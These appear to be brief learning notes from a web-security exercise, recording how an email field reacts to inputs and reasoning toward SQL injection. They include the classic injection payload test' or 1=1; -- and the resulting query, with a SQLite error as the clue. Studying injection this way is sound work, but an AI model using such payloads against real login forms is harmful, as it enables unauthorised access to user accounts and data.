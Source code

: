 Input: test
SQL: SELECT * from Users where email='test';
=> returns error message

Input: test'
SQL: SELECT * from Users where email='test'';
=> returns an 500 internal server error; SQLITE_ERROR
=> sql statement involved maybe?

Input: test' or 1=1; --
SQL: SELECT * from Users where email='test'' or 1=1--';